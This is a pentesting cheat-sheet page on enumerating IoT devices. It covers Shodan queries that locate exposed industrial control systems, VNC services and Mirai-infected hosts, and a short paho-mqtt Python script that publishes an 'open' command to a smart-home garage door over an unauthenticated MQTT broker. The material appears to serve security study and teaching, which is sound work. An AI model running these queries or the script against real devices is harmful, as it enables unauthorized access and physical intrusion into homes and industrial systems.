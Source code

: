 # 📳 Enumerating IoT Devices

## IoT - Hacking

### Communication Protocols

* Message Queuing Telemetry Transport (MQTT)
* Extensible Messaging and Presence Protocol (XMPP)
* Data Distribution Service for Real-Time Systems (DDS)
* Advanced Message Queuing Protocol (AMQP)

### Shodan IoT Search Engine

#### Web Interface

* [Shodan](https://images.shodan.io)

#### Find ICS

```
category:ics -http -html -ssh -ident country:us
```

### Shodan Command-Line Interface

#### Using the Shodan Command Line

**Install Shodan**

```
sudo apt install shodan
```

**Initialize the API Key**

```
shodan init <api-key>
```

**Test for credits available in your account**

```
shodan info
```

**Scan to find VNC services (RFB), showing IP, port, org, and hostnames**

```
shodan search --fields ip_str,port,org,hostnames RFB > results.txt

wc -l results.txt
```

**Check the honeyscore**

```
shodan honeyscore <IP Address>
```

### Shodan API

#### Testing the Shodan API

**Installation**

```
pip3 install shodan
```

**mqtt-search.py**

```
python3 mqtt-search.py

wc -l mqtt-results.txt

head mqtt-results.txt
```

#### Playing with MQTT

**Install paho-mqtt**

```
pip3 install paho-mqtt
```

**mqtt-scan.py**

```
python3 mqtt-scan.py
```

#### Serious Risk

**Open Garage Door**

```
import paho.mqtt.client as mqtt
def on_connect(client, userdata, flags, rc):
   print "[+] Connection success"
client = mqtt.Client(client_id = "MqttClient")
client.on_connect = on_connect
client.connect('IP SERVER HERE', 1883, 60)
client.publish('smarthouse/garage/door', "{'open':'true'}")

```

### Mirai Lives

#### Search for Mirai Infected Devices

```
shodan search --fields ip_str,port,org,hostnames categories:mirai > results2.txt

head results2.txt
```

## Further Readings

* [Internet of Things Scanner by BullGuard](https://iotscanner.bullguard.com/)

## References

* [Pasknel](https://medium.com/@pasknel/hacking-the-iot-with-mqtt-8edaf0d07b9b)
